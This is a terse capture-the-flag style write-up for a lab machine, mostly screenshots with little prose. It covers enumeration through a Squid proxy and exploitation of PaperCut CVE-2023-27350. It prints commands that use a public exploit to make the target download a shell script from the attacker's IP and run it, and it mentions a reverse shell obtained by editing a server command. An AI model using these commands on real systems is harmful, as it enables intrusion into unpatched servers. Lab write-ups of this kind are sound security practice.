









# Enumeration
Post 22 
Port 3189 -- Squid

Using proxychains to add the squid proxy:

Then using squidscan to check open ports:
```
go mod tidy
go build
./squidscan
```


We found 5 ports.
Using proxychains to do nmap scan:


Now adding proxy in burpsuite:




On port 9191:


Now we found a papercut exploit on github:
https://github.com/horizon3ai/CVE-2023-27350/tree/main

Using this:
```
proxychains python3 CVE-2023-27350.py -u http://10.10.82.145:9191 -c 'wget http://10.8.1.208/shell.sh' 

proxychains python3 CVE-2023-27350.py -u http://10.10.82.145:9191 -c 'chmod +x shell.sh'

proxychains python3 CVE-2023-27350.py -u http://10.10.82.145:9191 -c './shell.sh' 
```

Using linpeas there are writable e 
Now using authentication bypass:
https://www.exploit-db.com/exploits/51391


Now in enable printing: 

When clicking refresh servers
In pspy64 we can see server-command get executed.

So editing it to get a reverse shell.

